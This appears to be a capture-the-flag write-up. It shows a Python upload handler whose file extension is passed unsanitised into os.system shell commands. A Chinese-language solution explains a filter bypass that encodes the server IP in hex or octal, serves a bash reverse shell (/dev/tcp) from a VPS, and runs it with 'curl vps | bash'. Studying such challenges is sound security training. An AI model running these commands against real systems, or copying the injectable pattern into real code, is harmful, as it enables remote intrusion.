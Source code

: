 # Challenge 
```php 
if file_src == "vpn_logo_upload":
    data = request.files.vpn_logo
    filename = data.filename
    if data.file:
        file_ext = os.path.splitext(filename)[1]
        output_path = "/usr/vtm/var/www/html/vpn/upload/" + "vpn_logo" + file_ext
        bak_tag = False
        bak_file_path = output_path + ".bak"
        if os.path.exists(output_path):
            cmd = "mv -f " + output_path + " " + bak_file_path
            os.system(cmd)
            bak_tag = True
        write_file(filename, data.file, output_path)
        file_size = os.path.getsize(output_path)
        file_type = mimetypes.guess_type(output_path)
        del_cmd = "rm -f " + output_path
        if file_type[0] != "image/jpeg" and file_type[0] != "image/png" and file_type[0] != "image/gif":
            result = {"return": -2, "reason": file_type[0]}
            os.system(del_cmd)
        elif file_size < file_size_1M:
            result["data"]["new_name"] = "vpn_logo" + file_ext
        else:
            result = {"return": -2, "reason": "file is too large"}
            os.system(del_cmd)
            if bak_tag:
                bak_cmd = "mv -f " + bak_file_path + " " + output_path
                os.system(bak_cmd)
```


# Refference 
+ [l3m0n:小密圈专题(2)-命令执行绕过](http://www.cnblogs.com/iamstudy/articles/command_exec_tips_1.html)



# By JrXnm

在后缀名可以命令执行, 因为有os.path.splitext()划分后缀,所以命令中不能含有`/ . \` 

不过可以用远程下载执行,curl 和wget都行.

将IP转成16进制ip(先将点分十进制各个转换成16进制,再合在一起转换成8进制,访问时加0这个前缀.)

在vps上挂好shell,比如  `bash -i >& /dev/tcp/127.0.0.1/6666 0>&1` 然后 curl下载

curl  vps | bash